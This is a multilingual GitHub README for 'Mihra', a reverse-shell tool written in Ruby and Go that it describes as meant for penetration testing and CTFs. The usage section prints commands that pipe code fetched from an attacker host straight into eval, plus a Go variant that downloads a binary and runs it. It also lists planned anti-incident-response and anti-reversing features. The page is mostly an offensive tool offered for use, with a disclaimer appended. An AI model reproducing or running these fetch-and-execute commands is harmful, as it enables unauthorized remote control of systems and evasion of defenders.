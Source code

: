 # Mihra
🇧🇷 - Uma reverse shell construída em ruby para o testes de penetração. Agora para ambientes onde pode ser utilizado a linguagem interpretada e compilada 
Utiliza um sistema onde a porta de conexão é fornecida pelo alvo, e não pelo atacante, possibilitando o uso de proxy's e conexões em intervalos, devido ao loop de execução.


🇬🇧 -A reverse shell built in Ruby for penetration testing. Now for environments where the interpreted and compiled language can be used.
It uses a system where the connection port is provided by the target, not the attacker, allowing the use of proxies and connections at intervals, due to the execution loop.

🇨🇳 一个用Ruby编写的用于渗透测试的反向shell。现在适用于可以使用解释型和编译型语言的环境。
它使用一个系统，其中连接端口由目标提供，而不是攻击者提供，允许使用代理和在间隔内进行连接，这是由于执行循环的原因。

## Usage:
> RSA:
```
 # Generate the listener private key
openssl genrsa -out listener_private_key.pem 8192

  # Generate the listener public key
openssl rsa -in listener_private_key.pem -pubout -out listener_public_key.pem

  # Generate the server private key
openssl genrsa -out server_private_key.pem 8192

  # Generate the server public key
openssl rsa -in server_private_key.pem -pubout -out server_public_key.pem
```
> Target:
```
curl http://<attacker_ip>/target.rb | ruby -e 'eval(STDIN.read)'
#or just download it.

=========================
        GOLANG:
=========================
go build main.go

curl http://<attacker_ip>/target | chmod 777 target | /path/to/target --port <port>

=========================
```

> Attacker
```
ruby attacker.rb
#or
proxychains4 attacker.rb
=========================
        GOLANG:
=========================
go build aaa.go

./file --server <server> --port <port>

```
![image1](https://github.com/Lowkkii/Athenas/blob/main/main.png)
### soon:
* Binary files.
* anti incident-response.
* anti reversing.
* 
# Disclaimer
A perfect reverse shell for CTF's.

This repository and the tool contained within it are provided strictly for academic and research purposes. The use of this tool for any purpose that violates applicable laws or local, national, or international regulations is strictly prohibited. The contributors to this repository bear no responsibility for how this tool is used and the consequences arising from its use.

By using this tool, you agree to do so strictly for academic purposes and acknowledge that you are responsible for complying with all applicable laws and regulations during the use of this tool. This repository and its contributors do not endorse or promote any illegal or harmful activities.

Any misuse of this tool is not the responsibility of the contributors to this repository. If you do not agree with these terms or are unwilling to use it strictly for academic purposes, please do not proceed with the use of this tool.
